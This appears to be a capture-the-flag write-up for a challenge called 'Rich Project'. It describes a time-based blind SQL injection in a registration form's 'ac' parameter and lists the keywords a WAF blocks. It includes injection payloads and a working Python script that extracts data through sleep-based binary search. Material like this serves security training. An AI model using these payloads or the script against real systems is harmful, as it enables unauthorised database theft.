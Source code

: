 
# Rich Project

After scanning, I found:

`http://110.10.147.112/robots.txt`

```
User-agent : *
Disallow: /top_secret.zip
Disallow: /
```

But the zip file has an unknown password, and there is a file `ZIP PASS = MASTER_PW` in it.

So we need to find the MASTER's password first.

<br>

And then I found a SQL Injection in the register page. (http://110.10.147.112/?p=reg)

The point of SQL Injection is on `ac` parameter.

If we input `'||sleep(10)||'1` on `ac`, it will sleep 10 seconds.

So I guess the SQL query may look like `INSERT INTO xxx VALUES ('id', 'pw', 'ac')`

(after input `1'+'2`, the value of `ac` in `/?p=info` is `3`)

<br>

After fuzzing, I found that there is WAF behind the website. 

If I input `group_concat`, `group by`, `where`, `order`, `limit`, `'''`, `''''`, ..., the response text is `no hack`.

I can still dump some basic information by this script:

```python
import requests
import random
import time

while True:
    sql = raw_input(":")

    res = ''
    for tl in range(30):
        l = 20
        r = 140
        while l <= r:
            if l == r:
                res += chr(l)
                print(l, chr(l))
                print(res)
                break
            m = (l + r) // 2
            print "now:"+str(m)
            ac = "'||if(ascii(mid({},{},1))>{}, sleep(2),1)=1||'1".format(sql, tl+1, m)
            t1 = int(time.time())
            req = requests.post("http://110.10.147.112/?p=reg", data={'id':'kaizzzbro666'+str(random.randint(1,500)),'pw':'kaibro', 'ac':ac})
            # print r.text
            t2 = int(time.time())

            if t2 - t1 >= 2:
                l = m + 1
            else:
                r = m
```
